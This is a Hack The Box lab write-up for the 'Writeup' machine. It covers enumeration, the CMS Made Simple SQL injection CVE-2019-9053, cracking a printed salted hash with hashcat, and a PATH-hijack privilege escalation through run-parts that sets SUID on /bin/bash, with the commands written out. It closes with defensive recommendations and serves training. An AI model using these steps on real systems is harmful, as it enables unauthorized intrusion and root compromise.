# HTB - Writeup

**IP Address:** `10.129.30.59`  
**OS:** `Linux (Devuan / Debian-based)`  
**Difficulty:** `Easy`  
**Tags:** #CMSMS #SQLi #HashCracking #PATHHijack

---
## Synopsis

Writeup exposes a CMS Made Simple instance. After discovering a hidden `/writeup/` path via `robots.txt`, I identified CMSMS and used a known SQL injection (CVE-2019-9053) to extract a username, password hash, and salt. After cracking the hash offline, I SSH’d in as the recovered user. For privilege escalation, the user’s `staff` group membership allowed writing to `/usr/local/bin`, and `pspy` revealed that root executes `run-parts` with a PATH that prioritizes `/usr/local/bin` on SSH login—enabling a PATH hijack to obtain root.

---
## Skills Required

- Basic web enumeration (robots.txt, page/source inspection)
- Running a public PoC safely (time-based SQLi)
- Offline hash cracking (hashcat)
- Linux privilege escalation fundamentals (groups, PATH hijacking, process monitoring)

## Skills Learned

- Confirming exploitability by matching CMS surface + controlled PoC validation
- Avoiding DoS/WAF-style bans during enumeration
- Using `pspy` to catch root-triggered PATH opportunities

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.30.59
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.30.59 -oG allPorts
```



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,80 10.129.30.59 -oN targeted
cat targeted
```



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22 | SSH | OpenSSH (Debian) |
| 80 | HTTP | Apache; `robots.txt` discloses `/writeup/` |

---
## 2. Service Enumeration

### 2.1 HTTP Enumeration (robots + hidden path)

The Nmap scripts already hinted at `robots.txt`, so I checked it first to avoid noisy directory fuzzing (the landing page warns about banning on 40x responses):

```bash
#browser: http://10.129.30.59/
```



From there, I checked `robots.txt` (to avoid noisy scanning that could trigger bans):

```bash
#browser: http://10.129.30.59/robots.txt
```



The disallowed path exposed the real site content:

```bash
#browser: http://10.129.30.59/writeup/
```



### 2.2 CMS Identification (CMS Made Simple)

From the HTML, the generator meta tag identifies the CMS:

```bash
curl -s "http://10.129.30.59/writeup/index.php?page=writeup" | sed -n '1,60p'
```



---
## 3. Foothold

### 3.1 SQL Injection (CVE-2019-9053) → credential material

With CMSMS identified and a 2019-era install strongly suggested by the generator string/content, I enumerated known CMSMS exploits locally:

```bash
searchsploit "CMS Made Simple" 2019
```



The relevant candidate is the CMSMS SQL injection (CVE-2019-9053). In my case, the PoC output was **inconsistent across runs** (some characters were missing/corrupted in the extracted salt/hash), so I had to run it **multiple times** and reconstruct the full hex strings before cracking offline. Once I had complete values, a Python3 PoC for that CVE against the `/writeup/` base path returned:

- salt
- username 
- email
- password hash (not plaintext)






Hash: `62def4866937f08cc13bab43bb14e6f7:5a599ef579066807`

### 3.2 Offline cracking → SSH

Because the PoC output is a salted hash, the next step is cracking offline. After re-running the exploit enough times to capture all characters, I formatted the final values as `hash:salt` and used hashcat mode 20:

```bash
echo '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > final_hash.txt
hashcat -a 0 -m 20 final_hash.txt /usr/share/wordlists/rockyou.txt
```



If your extracted hash/salt are incomplete (non-hex), hashcat will refuse to load them. These were the intermediate attempts during this run:

Recovered (redact if publishing):

- `jkr:<REDACTED_PASSWORD>`

I then used the recovered password to SSH in:

```bash
ssh jkr@10.129.30.59
whoami
cat user.txt
```



🏁 **User flag obtained** 

---
## 4. Privilege Escalation

### 4.1 staff group write access + PATH priority

After landing as `jkr`, I checked group membership and the writable locations that stood out:

```bash
id
groups
sudo -l
cd /root/
ls -ld /usr/local/bin /usr/local/sbin
echo "$PATH"
```




This shows:

- `jkr` is in the `staff` group.
- `/usr/local/bin` and `/usr/local/sbin` are writable by `staff`.
- PATH begins with `/usr/local/bin` (and later we’ll confirm root uses a PATH that prioritizes these dirs on login).

### 4.2 pspy → root login hook runs PATH-resolved `run-parts`

To avoid guessing, I used `pspy` to observe root activity and determine what could be hijacked safely:

```bash
# on Kali
wget -O pspy32 https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy32
scp pspy32 jkr@10.129.30.59:/tmp/pspy32
```



``` bash
# on target
chmod +x /tmp/pspy32
/tmp/pspy32
```



On a new SSH login, `pspy` showed root executing:

- `env -i PATH=/usr/local/sbin:/usr/local/bin:... run-parts ...`
- `run-parts ...` (without an absolute path)

That means dropping a malicious `run-parts` into `/usr/local/bin` will be executed as root on login.

### 4.3 PATH hijack → SUID bash → root

I created a `run-parts` wrapper in `/usr/local/bin` to set the SUID bit on `/bin/bash`, then triggered it by logging in again:

```bash
echo -e '#!/bin/sh\nchmod u+s /bin/bash' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
```



After opening a new SSH session, I verified `/bin/bash` is now SUID and used `-p` to keep effective root privileges:

```bash
ls -l /bin/bash
/bin/bash -p
id
cat /root/root.txt
```



🏁 **Root flag obtained** 

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate HTTP and discover `/writeup/` via `robots.txt`.
2. Identify CMS Made Simple and validate reachable `moduleinterface.php` / News module surface.
3. Exploit CVE-2019-9053 to extract `jkr` hash+salt, crack offline, SSH as `jkr`.
4. Use `pspy` to spot root executing PATH-resolved `run-parts` on SSH login; hijack via `/usr/local/bin` to obtain root.

---
## Defensive Recommendations

- Update CMS Made Simple to a non-vulnerable version and remove/limit vulnerable modules.
- Restrict access to `moduleinterface.php` and enforce WAF rules carefully (without banning legitimate traffic).
- Remove group write permissions from PATH directories like `/usr/local/bin` for non-admin users.
- Ensure privileged scripts use absolute paths and a safe, fixed PATH.

